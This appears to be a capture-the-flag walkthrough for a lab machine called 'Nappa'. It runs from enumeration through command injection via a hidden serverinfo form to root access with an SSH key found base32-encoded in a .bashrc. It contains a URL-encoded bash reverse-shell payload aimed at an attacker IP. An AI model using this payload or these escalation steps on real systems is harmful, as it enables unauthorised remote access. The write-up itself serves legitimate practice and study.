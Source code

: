 # Nappa

### Enumeration

```
8080/tcp  open     http-proxy
```

Registered with test@test.com:password

404 Error Page -> Routing Error Page

```
system_path 	        GET 	/serverinfo(.:format) 	serverinfo#index
system_cmd_path 	POST 	/serverinfo(.:format) 	serverinfo#cmd
```

```
http://192.168.95.114:8080/serverinfo

In source code, there is a comment area

  <!-- 
  <input type="text" name="cmd" readonly="">
  <input type="submit" >
  -->
```

With Burp Suite, we can make it workable.

GET /serverinfo -> Do intercept -> Response to this request

### Initial Access

Click submit -> Find the post request in history -> Send to the repeater -> Add, url encoded cmd

```
cmd=%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%34%39%2e%39%35%2f%38%30%20%30%3e%26%31

#Decoded
cmd=/bin/bash -i >& /dev/tcp/192.168.49.95/80 0>&1
```

### PrivEsc

```
kathleen@nappa ~]$ cat .bashrc
# alias FUWS2LJNIJCUOSKOEBH...[REDACTED]
```

This is a base32 encoded string. It is an openssh private key. Save contents of it to a file.

```
$ chmod 600 privkey
$ ssh -i privkey root@192.168.95.114 -p 60022
```
